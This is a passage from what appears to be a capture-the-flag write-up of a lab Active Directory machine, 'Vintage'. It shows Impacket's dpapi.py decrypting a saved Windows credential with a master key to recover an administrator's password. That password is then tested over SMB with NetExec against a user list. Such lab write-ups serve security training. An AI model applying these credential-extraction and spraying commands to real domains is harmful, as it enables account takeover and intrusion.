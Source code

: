 now time to encrypt it.

```bash
➜  Vintage dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

BOMMMM!!! 

```bash
➜  Vintage nxc smb DC01.vintage.htb -u users.txt -p 'Uncr4ck4bl3P4ssW0rd0312' -k
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\C.Neri_adm:Uncr4ck4bl3P4ssW0rd0312 
```

WE have AdSelf privileges again

![alt text](../assets/images/vintage18.png)
Lets see DelegatAdmins what they can do